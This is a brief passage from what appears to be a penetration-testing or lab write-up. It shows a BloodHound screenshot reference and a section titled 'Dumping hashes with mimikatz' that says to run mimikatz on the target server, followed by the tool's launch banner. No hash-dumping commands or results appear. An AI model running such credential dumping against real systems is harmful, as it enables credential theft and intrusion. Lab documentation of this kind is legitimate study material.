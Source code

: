 ![_bloodhound](_bloodhound-search.png)

## Dumping hashes with mimikatz

On the target server run mimikatz

??? output "mimikatz"
    ``` txt
    PS C:\Users\Administrator\Downloads> .\mimikatz.exe

    .#####.   mimikatz 2.2.0 (x64) #18362 May  2 2020 16:23:51
    .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
    ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
    ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
    '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
    '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/
